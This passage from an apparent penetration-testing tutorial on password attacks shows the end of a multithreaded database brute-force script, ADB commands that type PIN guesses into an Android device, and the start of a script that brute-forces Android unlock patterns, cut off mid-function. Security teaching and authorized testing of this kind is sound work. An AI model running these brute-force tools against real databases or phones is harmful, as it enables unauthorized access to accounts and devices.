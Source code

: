 ```bash
    
    with open(users_file, 'r') as f:
        usernames = [line.strip() for line in f if line.strip()]
    
    with open(passwords_file, 'r') as f:
        passwords = [line.strip() for line in f if line.strip()]
    
    bruteforcer = DatabaseBruteForcer(
        target, int(port), db_type, usernames, passwords, int(threads)
    )
    bruteforcer.start_attack()
EOF
```

## 11. Mobile and IoT Device Password Attacks

:::note
Mobile and IoT attacks require specific tools and techniques. Always ensure you have proper authorization and understand the legal implications of testing these devices.
:::

### 11.1 Android Password Attacks

```bash
# ADB brute force for Android devices
adb devices
adb shell input text "1234"  # PIN attempt
adb shell input keyevent 66  # Enter key

# Android pattern brute force script
cat > android_pattern_crack.py << 'EOF'
#!/usr/bin/env python3
import subprocess
import time
import itertools

def send_pattern(pattern):
    """Send pattern to Android device via ADB"""
    # Pattern coordinates (approximate)
    coords = {
        1: (200, 400), 2: (400, 400), 3: (600, 400),
        4: (200, 600), 5: (400, 600), 6: (600, 600),
        7: (200, 800), 8: (400, 800), 9: (600, 800)
    }
    
    # Start at first point
    if pattern:
        x, y = coords[pattern[0]]
        subprocess.run(['adb', 'shell', 'input', 'touchscreen', 'swipe', 
                       str(x), str(y), str(x), str(y), '100'])
        
        # Draw pattern
        for i in range(1, len(pattern)):
            x, y = coords[pattern[i]]
            subprocess.run(['adb', 'shell', 'input', 'touchscreen', 'swipe', 
                           str(coords[pattern[i-1]][0]), str(coords[pattern[i-1]][1]),
                           str(x), str(y), '100'])
        
        time.sleep(1)

def generate_patterns(min_length=4, max_length=9):
    """Generate all possible patterns"""
    patterns = []
```